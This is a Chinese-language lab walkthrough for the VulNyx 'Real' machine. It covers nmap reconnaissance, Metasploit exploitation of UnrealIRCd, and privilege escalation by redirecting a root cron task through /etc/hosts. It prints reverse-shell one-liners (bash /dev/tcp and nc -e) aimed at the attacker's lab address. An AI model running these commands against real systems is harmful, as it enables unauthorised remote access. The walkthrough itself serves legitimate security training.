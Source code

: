 # 环境

来自[Vulny_Real](https://vulnyx.com/#Real)，利用已知unrealIRcd漏洞，定时脚本提权反弹shell

UnrealIRCd 是一个开源的 IRC（Internet Relay Chat）服务器软件，它用于构建和维护 IRC 网络。IRC  是一种古老的实时通信协议，允许用户通过加入不同的“频道”进行聊天和信息交流。每个 IRC  服务器都托管一个或多个频道，用户可以连接到服务器并加入这些频道与其他用户交流。

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```

![image-20240906172754105](image/image-20240906172754105.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.15
```

![image-20240906172923918](image/image-20240906172923918.png)

## 服务详情

```bash
sudo nmap -sVC -O -p22,80,6667,6697,8067 192.168.10.15
```

![image-20240906173104167](image/image-20240906173104167.png)

## 目录扫描

```bash
dirb http://192.168.10.15 #无结果
```

# UnrealIRCd 渗透

## 利用已知漏洞

```bash
msfconsole
search UnrealIRCd
set rhost 192.168.10.15
set payload cmd/unix/reverse_perl
set lhost 192.168.10.10
run
```

![image-20240906183537044](image/image-20240906183537044.png)

这个shell不好用，可以再反弹一个shell

```bash
bash -i >& /dev/tcp/192.168.10.10/8888 0>&1 #或者
nc -e /bin/bash 192.168.10.10 8888

#########得到交互式更好的shell
/bin/script -qc /bin/bash /dev/null
ctrl+z
stty raw -echo;fg
reset xterm
export TERM=xterm-256color
source /etc/skel/.bashrcs
############
```

## 提权

发现sudo需要密码，跑linpeas.sh也没发现什么，再跑进程监控pspy，发现有一个奇怪脚本执行

![image-20240906193953334](image/image-20240906193953334.png)

```bash
cat /opt/task  #发现会
echo "192.168.10.10 shelly.real.nyx" >> /etc/hosts
```

![image-20240906194207671](image/image-20240906194207671.png)

等待root反连

![image-20240906200455300](image/image-20240906200455300.png)
